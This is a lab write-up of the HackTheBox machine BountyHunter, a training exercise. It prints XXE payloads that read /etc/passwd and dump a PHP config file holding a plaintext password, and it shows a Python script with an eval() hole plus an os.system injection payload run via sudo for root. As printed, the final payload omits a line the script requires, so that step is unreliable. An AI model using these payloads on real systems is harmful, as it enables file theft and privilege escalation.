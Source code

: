 ```yaml
---
layout: post
title:  "HackTheBox BountyHunter"
date:   2021-10-03
category: Writeup
image: assets/img/blog/BountyHunter.png
author: Lukas Marckmiller
tags: ctf
---
```


# HackTheBox BountyHunter Writeup!

Hi! Thanks for reading my Writeup for the HTB Machine *BountyHunter*


## User.txt

First, i started with running [autorecon](https://github.com/Tib3rius/AutoRecon) (`autorecon <ip>)`. It's a pretty nice tool for gathering information about open ports, services bound to ports and possible attack vectors.
Taking a look at the results of  [autorecon](https://github.com/Tib3rius/AutoRecon) reveals two open ports, SSH (**22**) and HTTP (**80**).  
![nmap](/assets/img/blog/bhnmap.png)
I manually visited the website on port 80, found a php script and started running `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip> -x php`. It revealed following files and directories:

`/resources,/index.php,portal.php,/assets, /js, /css, db.php`

Next, I manually checked the discovered directories and found a tasklist in `http://\<ip>/resources/README.txt` containing the following text:

> Tasks:
> 
> [ ] Disable 'test' account on portal and switch to hashed password. Disable nopass. 
> [X] Write tracker submit script 
> [ ] Connect tracker submit script to the database 
> [X] Fix developer group permissions

We should keep this information in mind. Also, there's a file called `bountylog.js` containing JavaScript code. 

    function returnSecret(data) {
    	return Promise.resolve($.ajax({
                type: "POST",
                data: {"data":data},
                url: "tracker_diRbPr00f314.php"
                }));
    }
    
    async function bountySubmit() {
    	try {
    		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>${$('#exploitTitle').val()}</title>
    		<cwe>${$('#cwe').val()}</cwe>
    		<cvss>${$('#cvss').val()}</cvss>
    		<reward>${$('#reward').val()}</reward>
    		</bugreport>`
    		let data = await returnSecret(btoa(xml));
      		$("#return").html(data)
    	}
    	catch(error) {
    		console.log('Error:', error);
    	}
    }

Analyzing the code we can see that it sends a post request with an XML payload to `tracker_diRbPr00f314.php`. I thought about it for a second and got the idea: 
XML + Webrequest = [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing). So i started BurpSuite, moved to `http://<ip>/log_submit.php` and caught the post request to `http://<ip>/tracker_diRbPr00f314.php` which contained  a base64 encoded payload. A URL and base64 decoding later I got the raw request. 

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>1</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

In  Burp I moved to the Repeater and built my payload with the help of [this list](https://github.com/payloadbox/xxe-injection-payload-list).

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

Base64 and URL encoded i got the contents of the passwd file. 

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

So my XXE attack was successful. Unfortunately, I couldn't read any other found files like `db.php` or `portal.php` in the expected webroot directory at `/var/www/html/`. So I was looking for a different payload to avoid absolute paths and found an alternative payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file).

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/db.php"> ]>
    <data>&example;</data>

It revealed the contents of db.php.

    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>

Nice! So we got a database user and a password. Unfortunately, I couldn't find anything else interesting so I moved to the ssh port. Previously we found a user named `development`in `/etc/passwd`, if we try `ssh development@<ip>` we are prompted for a password. We haven't found any password for this user so I just tried the password from the `db.php` file and .... it worked! 

    development@bountyhunter:~$ id   
    uid=1000(development) gid=1000(development) groups=1000(development)
  So we can retrieve the first flag.

## Root.txt
I started to ennumerate the current directory and found a `contract.txt` 
![contract](/assets/img/blog/bhcontract.png)
It gives us a hint that on the system we can find an internal tool from *Skytrain Inc*, but we dont know where exactly. So lets ran `find / -iname "*Skytrain*" 2>/dev/null`. 
![find](/assets/img/blog/bhfind.png)
The directory contains a python script `ticketValidator.py`with straightforward python code.

	#Skytrain Inc Ticket Validation System 0.1
	#Do not distribute this file.
	def load_file(loc):
	    if loc.endswith(".md"):
	        return open(loc, 'r')

	    else:
	        print("Wrong file type.")
	        exit()
	
	def evaluate(ticketFile):
	    #Evaluates a ticket to check for ireggularities.
	    code_line = None
	    for i,x in enumerate(ticketFile.readlines()):
	        if i == 0:
	            if not x.startswith("# Skytrain Inc"):
	                return False
	            continue
	        if i == 1:
	            if not x.startswith("## Ticket to "):
	                return False
	            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
	            continue

	        if x.startswith("__Ticket Code:__"):
	            code_line = i+1
	            continue

	        if code_line and i == code_line:
	            if not x.startswith("**"):
	                return False

	            ticketCode = x.replace("**", "").split("+")[0]

	            if int(ticketCode) % 7 == 4:
	                validationNumber = eval(x.replace("**", ""))
	                if validationNumber > 100:
	                    return True
	                else:
	                    return False
	    return False

	def main():
	    fileName = input("Please enter the path to the ticket file.\n")
	    ticket = load_file(fileName)
	    #DEBUG print(ticket)
	    result = evaluate(ticket)
	    if (result):
	        print("Valid ticket.")
	    else:
	        print("Invalid ticket.")
	    ticket.close

	main()

The most important line `validationNumber = eval(x.replace("**", ""))` contains a eval. If we could manipulate the contents of `x` we can execute arbitrary commands.  So lets follow `x` backwards through the script and observe that a file is read line by line and each line stored in the loop value `x`. To execute the contents of `x` we must satisfy all conditions:

 1. `if loc.endswith(".md")`. Our payload file must have the extension  .md
 2. `if int(ticketCode) % 7 == 4:` The first part of our payload must a number that divided by 7 is a multiple of it with the rest of 4. The easiest value is 4.
 3. Our payload must contain a `+` in the ticketcode line.

An example can be found in `/opt/skytrain_inc/invalid_tickets` e.g:

    # Skytrain Inc
    ## Ticket to New Haven
    __Ticket Code:__  **31+410+86**
    ##Issued: 2021/04/06
    #End Ticket  

But what do we achieve with this? 
I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and found out that the current user can execute the script above as the root user without using a password!
All put together i ended up with following payload:

    # Skytrain Inc  
    ## Ticket to New Haven  
    **4+ __import__('os').system('cat /root/root.txt > /tmp/root')**    
    ##Issued: 2021/04/06  
    #End Ticket 

 After that, we can read the flag with `cat /tmp/root`

 



